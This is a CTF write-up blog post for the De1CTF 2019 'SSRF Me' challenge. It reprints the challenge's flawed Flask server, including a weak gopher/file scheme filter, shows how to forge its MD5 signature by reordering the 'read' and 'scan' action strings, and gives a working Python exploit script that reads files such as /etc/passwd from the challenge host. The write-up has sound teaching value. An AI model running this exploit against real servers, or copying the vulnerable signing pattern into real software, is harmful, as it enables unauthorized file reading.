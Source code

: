 ```yaml
---
layout: post
title:  "De1CTF 2019 SSRF Me Writeup"
date:   2019-08-06 18:00:00 +0300
categories: CTF_writeup De1CTF_2019
summary: This is my writeup for the Mine Sweeping challenge. This challenge was part of De1CTF 2019. We only got an URL that we should access as part of the challenge. Accessing that URL returns some python code.
---
```

This is my writeup for the `SSRF Me` challenge. This challenge was part of [De1CTF 2019](https://ctftime.org/event/843).

We only got an URL that we should access as part of the challenge. Accessing that URL returns some python code.


<details>
  <summary>Python code - server(click to expand)</summary>
<p>
{% highlight python %}
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

    
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
{% endhighlight %}
</p>
</details>

We can notice some things by analysing the code:
* the '/' endpoint returns the code, as we observed before
* the `/geneSign` endpoint will call the getSign function
    * The getSign function takes 2 arguments: param and action (both of them are strings)
    * That function will also access the 'secert_key' variable which is randomly generated
    * The function returns an MD5 hash of the string obtained by merging secert_key, param and action
    * the `/geneSign` endpoint will set the action to 'scan' and let the user supply the value for 'param'
* the `/De1ta` endpoint will create a Task object and return the result of its `.Exec()` method
    * This endpoint allows the user to supply values for 3 variables
        * action - by setting the 'action' cookie
        * sign - by setting the 'sign' cookie
        * param - by using an URL parameter named 'param'
        * It looks like the IP address of the user is also used (we can ignore this as it is used only for sandboxing purposes)
    * Next, we should look at details about the Task class. It has a simple constructor that uses the values mentioned above and the Exec method. The Exec method is where the important stuff happens
        * One of the first things that we notice in the Exec method is the `self.checkSign()` check. To avoid getting an error (code 500), the request should have a 'sign' cookie with the expected value
        * The expected value is a MD5 hash computed by calling the getSign method that was mentioned above. This means that we should be able to get a hash by using the `/geneSign` endpoint
        * The `/geneSign` endpoint has the value for 'action' set to 'scan'. We should imitate that and set the action to 'scan' in our request too. As a result, if we chose a valid URL for 'param', generate a hash using the `/geneSign` endpoint and then use that hash with the 'scan' action and the same parameter at the `/De1ta` endpoint we can get a 200 (OK) response from the server
        * Now it is time to take a look at what the 'scan' action means for this program. After that check passes, we have two available actions:
            * scan - takes the URL from 'param', open it and then put the first 50 characters from it into a file
            * read - returns the content obtained by the last 'scan' action
            * Another thing that should be mentioned here is that the check is performed using `in`. This means that the user-supplied string could contain both of these actions (e.g. "scanread" would be a valid input and it would trigger both actions)
            * The actions are always performed in the same order without taking into account the order of their keywords in the user-supplied string. So both "scanread" and "readscan" will produce the same result (a 'scan' action followed by a 'read' action)
* So in order to read the content of an arbitrary URL we should be able to use a 'read' action. However, we cannot obtain a valid hash from `/geneSign` because that will always have the action set to 'scan'
    * But as I mentioned above, the order of the words 'scan' and 'read' in the string does not matter. This means that we could make the request to `/geneSign` using 'read' followed the the URL as the value for 'param'. After the strings are merged this will be the same as if the action was "scanread" and the value of 'param' was the original URL  that we wanted to access
* Doing the actions mentioned above allowed me to access /etc/passwd as a PoC for this "exploit". Howevere, as we expected, only the first 50 characters of the file were returned.

![Reading from /etc/passwd]({{site.baseurl}}{{site.baseurl}}/assets/img/De1CTF_2019/ssrf_1.png){: .center-image}

* To make things easier from here, I created a Python script that does all the required steps to read a file from the server

<details>
  <summary>get_file.py (click to expand)</summary>
<p>
    {% highlight python %}
    import requests
    import sys
    import json

    server = 'http://139.180.128.86/'


    def get_signature(param):
        req_url = server + 'geneSign' + '?param=' + param

        res = requests.get(req_url)
        return res.text


    def get_file(path):
        s = get_signature(path + 'read')
        action = 'readscan'

        cookies = {}
        cookies['action'] = action
        cookies['sign'] = s

        request_url = server + 'De1ta?param=' + path
        r = requests.get(request_url, cookies = cookies)
        
        res = json.loads(r.text)
        if res['code'] is 200:
            print('Request was successful')
            return res['data']
        else:
            print('Request failed')
            return None


    if __name__=='__main__':
        if len(sys.argv) is not 2:
            print('Wrong number of arguments')
            exit(1)
        else:
            path = sys.argv[1]

        print('Obtaining file %s' % path)
        tmp = get_file(path)
        print(tmp)
    {% endhighlight %}
</p>
</details>

* Next, I tried to obtain the `./flag` file without success so I assumed that need a full path for that
    * For this, I tried to access `/proc/self/cmdline` to get some information about the current process (the working directory in particular) but the 50 character limit prevented me from obtaining relevant information
    * I also tried reading other files from the system or from /proc/self but I couldn't get any useful information. An example of useless information that I got was that PID of the process and the fact that the server uses the [uWSGI framework](https://uwsgi-docs.readthedocs.io/en/latest/)

![PID and uwsgi]({{site.baseurl}}{{site.baseurl}}/assets/img/De1CTF_2019/ssrf_2.png){: .center-image}

* After a while I decided to take a step back and try going for `./flag` again but this time I tried to read `flag` (without the './')
    * To my surprise, that worked and I obtained the flag for this challenge

![flag obtained]({{site.baseurl}}{{site.baseurl}}/assets/img/De1CTF_2019/ssrf_3.png){: .center-image}
